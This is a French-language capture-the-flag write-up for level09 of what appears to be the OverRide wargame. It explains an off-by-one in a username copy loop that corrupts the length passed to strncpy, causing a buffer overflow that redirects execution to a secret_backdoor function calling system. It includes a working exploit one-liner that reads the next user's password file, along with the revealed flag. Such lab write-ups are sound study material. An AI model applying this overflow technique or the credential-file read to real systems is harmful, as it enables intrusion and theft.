 # Level 09

On remarque que la boucle qui écrit le username au buffer principale écrit au maximum 41 caractères dans celui-ci. Ce qui n'as pas l'air d'être le comportement attendu par le developpeur du code, puisque qu'il se sert de tout ce qui il y a après le 40ème caractère pour autre chose. Ce qui nous laisse écrire 1 caractère dans ce 'autre chose'. C'est là la faille de sécurité. Le programme vérifie la valeur maximale de son itérateur AVANT de l'incrémenter. Une faute facile à faire lorsque l'on ne prend pas garde. (ou alors le dev est mal intentioné, ce qui à l'air d'être le cas car il a écrit une fonction pas du tout suspecte nommée `secret_backdoor` 😂)

Et c'est définitivement une faute grave car les caractères qui suivent le 40ème sont utilisés pour déterminé la taille fournit à un appel à la fonction `strncpy`, dans la fonction `set_msg`.

Cette fonction prend comme destination le buffer principal et comme source le buffer ayant reçu notre entrée pour le message.
Nous savons que le buffer principal fait 192 caractères de long. Il nous suffit donc de construire un payload exploitant la faille sus-mentionnée en dépassant la taille du buffer principale pour atteindre l'adresse de retour de la fonction `handle_msg`. Nous y écrirons l'addresse de la fonction `secret_backdoor` qui nous laissera appeler la commande de notre choix avec un appel à `system`.

```bash
level09@OverRide:~$ (python -c 'print "A" * 40 + "\xd0"'; python -c 'print "A" * 200 + "\x00\x00\x55\x55\x55\x55\x48\x8c"[::-1]'; echo "cat /home/users/end/.pass" ) | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
Segmentation fault (core dumped)
```